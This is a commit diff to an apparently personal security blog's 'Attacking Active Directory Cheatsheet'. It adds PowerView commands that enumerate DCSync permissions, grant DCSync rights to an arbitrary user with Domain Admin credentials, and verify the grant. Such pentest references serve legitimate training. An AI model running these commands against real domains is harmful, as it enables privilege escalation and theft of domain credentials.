

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 14611 px. Shown: the whole window, without its empty margins (229-1268 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

```diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -498,13 +498,18 @@ Replicating Directory Changes All
 Replicating Directory Changes In Filtered Set
 
 # Enumerating DCSync user permissions with PowerView.ps1
+Import-Module .\PowerView.ps1
+Get-DomainObjectAcl -TargetIdentity "dc=vorkharium,dc=com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
+# Or
 Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
 
 # Granting DCSync rights to any user using the Domain Admin user john and PowerView.ps1
 $Pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
 $Cred = New-Object System.Management.Automation.PSCredential('vorkharium.com\john, $Pass')
-Add-ObjectAcl -TargetDistinguishedName "dc=vorkharium,dc=com" -PrincipalSamAccountName newlyoverpowereduser -Rights DCSync -Verbose
+Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=vorkharium,DC=com" -PrincipalIdentity newlyoverpowereduser -Rights DCSync -Verbose
 # Check if the user successfully got DCSync rights
+Get-DomainObjectAcl -TargetIdentity "dc=vorkharium,dc=com" -ResolveGUIDs | ?{$_.IdentityReference -match "newlyoverpowereduser"}
+# Or
 Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs | ?{$_.IdentityReference -match "newlyoverpowereduser"}
 
 # Remote DCSync
```
